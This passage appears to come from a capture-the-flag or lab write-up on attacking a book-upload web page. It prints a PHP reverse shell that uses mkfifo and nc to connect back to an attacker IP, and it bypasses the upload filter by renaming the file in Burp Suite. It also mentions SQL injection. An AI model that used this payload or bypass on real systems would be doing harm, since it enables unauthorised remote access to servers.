 10) I write my payload (a php reverse shell) in `rshell.php.jpg`:

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.199 443 >/tmp/f");?>
```

11) I fire up burp-suite in proxy mode since I assume there will be some file extension validation on the client side. I will intercept the request and change the filename to `.php` once its passed the client side validation.

![](./assets/intercept-caught.png)

12) I press "Add new book", rename the file from `rshell.php.jpg` to `rshell.php` in the request and forward it, however I encounter a few errors which give away some database columns... (we can try SQL injection if this doesn't work)

![](./assets/sql-errors-1.png)